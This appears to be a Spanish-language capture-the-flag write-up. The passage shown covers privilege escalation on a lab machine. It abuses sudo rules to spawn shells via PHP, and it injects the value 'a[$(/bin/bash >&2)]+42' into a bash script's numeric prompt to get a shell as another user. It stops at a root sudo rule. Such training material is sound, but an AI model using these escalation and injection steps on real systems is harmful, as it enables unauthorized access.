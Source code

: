 
---

## Escalada de Privilegios

###### Usuario `[ www-data ]`:
Listanod los permisos para este usuario:
```bash
sudo -l 

User www-data may run the following commands on e0f03ecc5baa:
    (pylon) NOPASSWD: /usr/bin/php # Tenemnos una via potencial de migrar a este usuario.
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( Pylon )
sudo -u pylon /usr/bin/php -r "system('/bin/bash');"
```
###### Usuario `[ Pylon ]`:
Para este usuario tenemos el siguiente archivo: **pylonsorpresita.sh** que si revisamos su contenido:
```bash
#!/bin/bash

read -rp "Escribe 1 para ver el canal de pylon: " num

if [[ $num -eq 1 ]]
then    
  echo "https://www.youtube.com/@Pylonet"
else    
  echo "Ingresa el 1"
fi
```

Revisando los permisos del usuario este archivo se puede ejecutar como el usuario: **mario**
```bash
User pylon may run the following commands on e0f03ecc5baa:
    (mario) NOPASSWD: /bin/bash /home/mario/pingusorpresita.sh
```

Para explotar este privilegio le inyectaremos un comanod al programa al ejecutarlo:
```bash
sudo -u mario /bin/bash /home/mario/pingusorpresita.sh
```

Ahora le inyectamos el comando:
```bash
Escribe 1 para ver el canal del pinguino, o cualquier otro numero para acceder a la academia: a[$(/bin/bash >&2)]+42
```
###### Usuario `[ Mario ]`:
Listando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User mario may run the following commands on e0f03ecc5baa:
    (root) NOPASSWD: /bin/bash /home/pylon/pylonsorpresita.sh
```
